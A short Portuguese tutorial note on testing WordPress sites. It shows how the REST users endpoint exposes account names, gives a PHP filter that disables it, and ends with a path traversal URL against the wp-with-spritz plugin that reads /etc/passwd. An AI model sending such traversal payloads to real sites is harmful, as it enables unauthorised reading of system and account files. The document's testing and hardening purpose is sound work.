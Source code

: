 # Como testar a vulnerablidade de um site wordpress:

Dados sensiveis exposto:

https://dominios.x.x/wp-json/wp/v2/users

Resolução:

Acessar o arquivo 'functions.php' no Wordpress e adicinar o seguinte codigo:

add_filter( 'rest_endpoints', function( $endpoints ){
    if ( isset( $endpoints['/wp/v2/users'] ) ) {
        unset( $endpoints['/wp/v2/users'] );
    }
    if ( isset( $endpoints['/wp/v2/users/(?P<id>[\d]+)'] ) ) {
        unset( $endpoints['/wp/v2/users/(?P<id>[\d]+)'] );
    }
    return $endpoints;
});


# Como testar vulnerabilidade do servidor web:

Descobrir possivel versão do servidor web e senha de usuarios:

https://dominio.x.x//wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd



